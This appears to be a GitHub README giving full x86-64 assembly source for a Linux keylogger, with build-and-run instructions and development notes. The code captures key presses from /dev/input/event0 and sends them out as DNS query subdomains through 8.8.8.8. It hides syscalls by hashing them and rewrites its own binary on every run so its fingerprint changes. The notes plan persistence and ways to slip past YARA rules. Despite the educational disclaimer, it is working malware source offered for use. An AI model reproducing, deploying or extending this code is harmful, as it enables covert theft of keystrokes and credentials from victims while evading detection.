


## Creation and analysis of a keylogger developed in x86 assembly
**With syscalls obfuscation , DNS exfiltration and dynamic generation of fingerprint.** 

For analytical and educational purposes.

---

## Code
```asm
%define INPUT_EVENT_SIZE 24 ; in octets

section .bss
    key_temp resb 3
    buffer resb INPUT_EVENT_SIZE
    key_temp_concat resb 10 ; we will save the touch values ​​5 at a time (each one is 2 bytes)

section .data
    breakpoint db "breakpoint"
    bin_filename db "keylogger_with_dns_exfiltration_and_syscall_obfuscation_and_dynamic_fingerprint",0
    temp_filename db "tmp_keylogger_with_dns_exfiltration_and_syscall_obfuscation_and_dynamic_fingerprint", 0
    current_process_file db "/proc/self/exe", 0
    junk db "junk"

    temp_digit dq 0
    h dq 5381
    
    key_log db "key_log", 0
    event0_file_path db "/dev/input/event0"
    fd dq 0

    ip_socket:
        dw 2 ; AF_INET (ipv4)
        dw 0x3500 ; port 53
        dd 0x08080808 ; 8.8.8.8
        dq 0 ; padding

    dns_query:
        db 0x12,0x34 ; ID (random 16 bit number)
        db 0x01,0x00 ; Flags (standard query RD=1)
        db 0x00,0x01 ; QDCOUNT (1 = question)
        db 0x00,0x00 ; ANCOUNT
        db 0x00,0x00 ; NSCOUNT
        db 0x00,0x00 ; ARCOUNT
        db 10 ; padding
    
    subdomain_space:
        times 10 db 0 ; subdomaine (key_temp_concat)

        db 11,"testdomaine"
        db 3,"com"
        db 0

        db 0x00,0x01 ; QTYPE A
        db 0x00,0x01 ; QCLASS IN

    query_len equ $-dns_query

section .text
    global _start

_start:
    call change_fingerprint

    mov rdi, 177575 ; 2
    call find_value ; r10 = value

    mov rax, r10 ; open event0 file
    mov rdi, event0_file_path
    mov rsi, 0
    mov rdx, 0
    syscall

    xor r10, r10

    mov [fd], rax ; save file descriptor of event0

reading_new_key:
    mov rax, 0 ; read INPUT_EVENT_SIZE (24 octets) in event0
    mov rdi, [fd]
    mov rsi, buffer
    mov rdx, INPUT_EVENT_SIZE
    syscall

    ; filter only “key pressed” events
    mov ax, [buffer + 16] ; type = ev_key
    cmp ax, 1
    jne reading_new_key
    mov eax, [buffer + 20]  ; value = press
    cmp eax, 1
    jne reading_new_key

    ; get the keycode and convert it from bin to ASCII
    movzx rax, word [buffer + 18] ; key code
    mov rbx, 10
    xor rdx, rdx
    div rbx                         ; rax = quotient, rdx = reste
    add al, '0'                     ; quotient -> ASCII
    add dl, '0'                     ; reste -> ASCII
    mov [key_temp], al
    mov [key_temp+1], dl

    mov al, [key_temp]
    mov [key_temp_concat+r10], al
    inc r10

    mov al, [key_temp+1]
    mov [key_temp_concat+r10], al
    inc r10

    jmp test_concat_size

test_concat_size:
    cmp r10, 10
    jne reading_new_key ; nb of touches pressed != 5

    mov r10, 0
    jmp send_dns_request

    jmp reading_new_key

send_dns_request:
    mov rax, 41         ; sys_socket
    mov rdi, 2          ; AF_INET
    mov rsi, 2          ; SOCK_DGRAM
    mov rdx, 17         ; IPPROTO_UDP
    syscall
    mov r10, rax

    mov rsi, key_temp_concat ; src : key_temp_concat
    mov rdi, subdomain_space ; dst : subdomain_space
    mov rcx, 10 ; nb bytes to copy
    rep movsb ; for bytes in rcx : rdi += rsi[bytes]

    mov rax, 44 ; sys_sendto
    mov rdi, r10 ; file descriptor du socket
    mov rsi, dns_query ; buffer containing the constructed query
    mov rdx, query_len ; size of the request
    xor r10, r10 ; flags = 0
    mov r8, ip_socket ; structure sockaddr_in
    mov r9, 16 ; structure size of sockaddr_in
    syscall

    jmp reading_new_key

exit:
    mov rax, 60
    xor rdi, rdi
    syscall

find_value:
    mov r9, 100
    mov r10, 0

loop:
    cmp r9, 0
    je end_function
    dec r9

    mov qword [temp_digit], r9
    mov qword [h], 5381

hash_loop:
    cmp byte [temp_digit], 0
    jbe test_hash

    mov rax, [temp_digit]
    xor rdx, rdx
    mov rbx, 10
    div rbx

    mov rcx, rdx
    mov [temp_digit], rax

    ; h = h * 33 + digit
    mov rax, [h]
    mov rbx, 33
    mul rbx
    add rax, rcx
    mov [h], rax

    jmp hash_loop

test_hash:
    mov rax, [h]
    cmp rax, rdi
    jne loop

    mov r10, r9
    jmp end_function

end_function:
    ret

change_fingerprint:
    mov rax, 2 ; sys_open
    mov rdi, current_process_file
    mov rsi, 0 ; read only
    mov rdx, 0
    syscall
    mov r12, rax ; r12 = fd current_process_file

    mov rax, 2 ; sys_open
    mov rdi, temp_filename
    mov rsi, 577 ; write only | create if not exist | overwrite (trunc)
    mov rdx, 0777q
    syscall
    mov r13, rax ; r13 = fd temp_filename

    mov rax, 40  ; sys_sendfile
    mov rdi, r13 ; temp_filename (dst)
    mov rsi, r12 ; current_process_file (src)
    mov rdx, 0 ; from octet 0
    mov r10, 0x7FFFFFFF ; to EOF (end of the file)
    syscall

    mov rax, 1 ; sys_write
    mov rdi, r13
    mov rsi, junk
    mov rdx, 4
    syscall

    mov rax, 87 ; unlink
    mov rdi, bin_filename
    syscall

    mov rax, 82 ; rename
    mov rdi, temp_filename
    mov rsi, bin_filename
    syscall

    mov rax, 3
    mov rdi, r12
    syscall
    mov rax, 3
    mov rdi, r13
    syscall

    ret
```

### How to run ?

In the code change the domaine : "testdomaine" to a one you own. Or just leave the "testdomaine" if you just want to see the request in wireshark. 

#### Assemble with nasm
```
nasm -f elf64 keylogger.asm
```
*transform assembly into opcodes*

#### Link with ld
```
ld keylogger.o -o keylogger
```
*combines the opcodes files to create the executable*

#### Run as root and release the terminal
```
sudo ./keylogger </dev/null &
```

#### One-line launch
```
nasm -f elf64 keylogger.asm ; ld keylogger.o -o keylogger ; sudo ./keylogger </dev/null &
```

## Notes on the project
### First analysis without obfuscation method (14/03/2026)

By running the program, you can see the DNS queries it performs.


The fact that binary ninja attempt to recreate the high-level code in which the program was never created is quite fun. However all the syscall, the data (domain and files) is perfectly understandable and clearly displayed. Therefore, it wouldn't be very difficult to recover all the IOCs using a reverse analysis.


Things to add before the next analysis :
- syscall obfuscation
- dynamic signature generation allowing its fingerprint to be modified at each execution
- persistence mechanism

### First attempt of syscall obfuscation
This first attempt consists of retrieving the syscall into a "num" file. 

cf : experimentation/syscall_obfuscation_first_attempt.asm



The syscall is obfuscated ; sys_write is not recover by the decompiler, it's the buffer return by sys_read.

But it is still easy to retrieve the file and deduce the syscalls from it.

### Obfuscation trought syscall hashing (26/03/2026)

I initially implemented a non-cryptographic pseudo-hashing method of the djb2 type (cf : https://github.com/karambole-dev/learn-assembly-x86/blob/main/hashing/pseudo_djb2.asm)

We will hash all the numbers from 100 to 0 until one of them has the same hash as the desired one (here 60), and if it is the case we can exit the programm correctly by using it as a syscall (sys_exit = 60).

cf : experimentation/syscall_obfuscation_hashing.asm

I then placed all this logic in a function that the keylogger calls before a syscall: 
```assembly
    mov rdi, 177575 ; hash of number : 2
    call find_value ; r10 = returned value

    mov rax, r10 ; open event0 file
    mov rdi, event0_file_path
    mov rsi, 0
    mov rdx, 0
    syscall
```

I only obfuscated the first syscall in the "keylogger_with_dns_exfiltration_and_syscall_obfuscation.asm" version ; the code is already quite complex and I would like to be able to continue rereading it.

On the reverse side, we see that the decompiler can no longer automatically retrieve the syscall. This is already enough to slow down the analysis.


Obviously, the fact that the file name is visible makes obfuscation less effective.

Things to add before the next analysis :
- fingerprint generation
- obfuscate files name and domain to bypass basic yara rules

### Dynamic fingerprint (27/03/2026)

```
$ md5sum keylogger_with_dns_exfiltration_and_syscall_obfuscation_and_dynamic_fingerprint
a7974156c03fd4e83898b9fc5dd3061e

$ sudo ./keylogger_with_dns_exfiltration_and_syscall_obfuscation_and_dynamic_fingerprint 
^C

$ md5sum keylogger_with_dns_exfiltration_and_syscall_obfuscation_and_dynamic_fingerprint
3761e4aa2318f7ffd61725692d2dc315
```

Creating a self-modifying binary was much harder than i thought because the kernel blocks writing to running binaries (errors ETXTBSY).

So you have to retrieve it from memory (/proc/self/exe is the current bin in the context so we can read it), copy it to a temporary file, unlink the file from its memory instance, delete the file, and rename the copy with the name of the original binary. (cf : experimentation/dynamic_fingerprint.asm)

### Warning
Only use this program on a machine you own. This code was written for educational purposes.
